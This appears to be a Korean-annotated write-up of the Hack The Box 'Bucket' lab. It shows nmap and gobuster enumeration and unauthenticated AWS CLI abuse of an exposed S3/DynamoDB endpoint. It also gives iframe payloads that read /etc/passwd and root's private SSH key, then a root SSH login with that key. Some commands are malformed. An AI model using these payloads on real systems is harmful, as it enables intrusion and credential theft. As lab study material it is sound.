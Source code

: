 초기스캔

```bash
nmap -v 10.10.10.212 -sC -sV -oN nmap/initial
```

```bash
nmap -A -p- 10.10.10.212 -oN nmap/all-ports
```

```bash
gobuster dir -u http://s3.bucket.htb -w /opt/directory-list-2.3-medium.txt
```

```bash
curl http://s3.bucket.htb/health 
````

{"services": {"s3": "running", "dynamodb": "running"}}

```text
┌──(kali㉿kali)-[~/…/htb/box/bucket/nmap]
└─$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb
{
    "TableNames": [
        "users"
    ]
}
```

```aws
aws dynamodb get-item --consistent-read \
    --table-name users \
    --endpoint-url http://s3.bucket.htb
```
위 명령어는 key가 필요하다고 한다.

```aws
aws dynamodb scan \
     --table-name Thread \
     --filter-expression "LastPostedBy = :name" \
     --expression-attribute-values '{":name":{"S":"User A"}}'
```

```aws
aws dynamodb scan \
     --table-name users \
     --endpoint-url http://s3.bucket.htb
```

```aws
aws s3api list-buckets --endpoint-url http://s3.bucket.htb
```
bucket name 특정

```aws
aws s3api list-buckets --endpoint-url http://s3.bucket.htb
```

해당 버킷의 네임 획득 이후 ls로 디렉터리 조회

```aws
aws s3 ls adserver/images/ --endpoint-url http://s3.bucket.htb
```


```aws
aws s3 cp test.txt s3://adserver/images/ --endpoint-url http://s3.bucket.htb
```

테스트 파일 업로드 시도, 업로드는 정상적으로 수행

https://github.com/pentestmonkey/php-reverse-shell

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions \
        AttributeName=title,AttributeType=S \
        AttributeName=data,AttributeType=S \
    --key-schema \
        AttributeName=title,KeyType=HASH \
        AttributeName=data,KeyType=RANGED  \
    --endpoint-url http://s3.bucket.htb \
    --provisioned-throughput \
        ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --table-class STANDARD
```

```bash
aws dynamodb scan \
     --table-name alerts \
     --endpoint-url http://s3.bucket.htb
```     

```bash
aws dynamodb put-item \
    --table-name alerts \
    --item file://item.json \
    --endpoint-url http://s3.bucket.htb
```

```bash
curl -X POST vendor/autoload.php --data={
    "action" : "get_alerts"}
```

```json
{
    "title": {"S": "Ransomware"},
    "data": {"S": "<html><head><body><iframe src=\"/etc/passwd\"></body></head></html>"}
}
```
```json
{
    "title": {"S": "Ransomware"},
    "data": {"S": "<html><head><body><iframe src=\"/root/.ssh/id_rsa\"></body></head></html>"}
}
```

#id_rsa 개인키 획득후

```shell
ssh -i id_rsa root@bucket.htb
```

root 접속
